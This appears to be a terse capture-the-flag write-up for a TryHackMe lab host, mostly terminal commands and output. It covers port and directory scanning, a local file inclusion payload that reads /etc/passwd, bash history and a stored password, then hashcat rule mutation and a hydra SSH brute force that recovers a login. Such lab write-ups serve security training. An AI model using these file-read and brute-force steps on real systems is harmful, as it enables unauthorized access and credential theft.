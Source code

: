 <code>
  
LINK https://tryhackme.com/r/room/redisl33t

### Service Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ nmap -sV  -p- -Pn  red.thm     
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-29 02:31 CDT
Nmap scan report for red.thm (10.10.108.254)
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

### WWW Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://red.thm -x php,txt,html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://red.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s

2024/05/29 02:52:10 Starting gobuster in directory enumeration mode

/index.php            (Status: 302) [Size: 0] [--> /index.php?page=home.html]
/contact.html         (Status: 200) [Size: 7507]                             
/about.html           (Status: 200) [Size: 9309]                             
/home.html            (Status: 200) [Size: 15757]                            
/services.html        (Status: 200) [Size: 9131]                             
/signup.html          (Status: 200) [Size: 7283]                             
/assets               (Status: 301) [Size: 303] [--> http://red.thm/assets/] 
/portfolio.html       (Status: 200) [Size: 14352]                            
/signin.html          (Status: 200) [Size: 6655]                             
/readme.txt           (Status: 200) [Size: 675]                              
/server-status        (Status: 403) [Size: 272]  

### get local file
GET http://red.thm/index.php?page=php://filter/resource=/etc/passwd HTTP/1.1

root:x:0:0:root:/root:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

### reply from bash history 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.bash_history
echo "Red rules" cd hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt cat passlist.txt rm passlist.txt sudo apt-get remove hashcat -y 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.reminder
sup3r_p@s$w0rd! 


┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hashcat --stdout reminder -r ../../../..//usr/share/hashcat/rules/best64.rule > passlist.txt 
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ cat passlist.txt         
sup3r_p@s$w0rd!
!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!
Sup3r_p@s$w0rd!
....

### Use hydra to brute force
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hydra -l blue -P passlist.txt ssh://10.10.141.213
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-30 06:22:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.141.213:22/
[22][ssh] host: 10.10.141.213   login: blue   password: sup3r_p@s$w0rd!9
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-30 06:22:29

## Credentials login: blue   password: sup3r_p@s$w0rd!9
get first flag

Fine here is the root password WW91IGFyZSBhIGxvc2VyIEJsdWU=


</code>
